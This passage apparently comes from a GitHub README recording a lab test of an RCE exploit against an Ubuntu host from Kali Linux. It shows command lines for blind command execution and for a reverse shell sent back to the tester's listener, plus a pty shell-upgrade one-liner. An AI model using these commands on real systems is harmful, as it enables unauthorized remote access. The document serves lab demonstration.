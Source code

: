 I tryout this exploit using a Kali Linux Version 2020.1 and following are the steps I took accordingly. 
1. Test the connectivity using the Kali Linux’s web browser.
![9](https://user-images.githubusercontent.com/37071700/81484992-b38efa00-9267-11ea-970b-72121cfddc60.png)<br><br>
![10](https://user-images.githubusercontent.com/37071700/81485010-c7d2f700-9267-11ea-8acf-bf9f759b14f3.png)<br><br>
2. Fire up the terminal and test the Remote Code Execution (RCE) exploitation.<br><br>
By typing “python <exploit>.py -t http://ubuntu ip/ --cmd” we can get a shell-like environment to perform blind remote code   execution.
  ![11](https://user-images.githubusercontent.com/37071700/81485049-17192780-9268-11ea-9c9e-77610dfc1144.png)<br><br>
  
In the above image you can see that I receive an HTTP/1.1 response saying that <Response [200]><br>
Response 200 is a HTTP/1.1 response which states that the request has succeeded.<br> 
(Ref : https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html)<br><br>
3. Next test, the reverse shell exploitation.<br><br> 
By typing “python <exploit>.py -t http://ubuntu ip/ -l <localhost> -p <port>” we can get a reverse shell separately in another terminal. I used python -c "import pty;pty.spawn('/bin/bash')" to get the shell and tested with pwd command.
  ![12](https://user-images.githubusercontent.com/37071700/81485141-8abb3480-9268-11ea-9107-43b8da283e18.png)<br><br>
  ![13](https://user-images.githubusercontent.com/37071700/81485150-8d1d8e80-9268-11ea-8251-2251af52f91a.png)<br><br>

### A video demonstration is available in [Google Drive](https://drive.google.com/open?id=183NTE-T1UNbz8NaRvBNxa6Dhmca9j2xr) or [YouTube](https://youtu.be/8StSyaqUDF0).

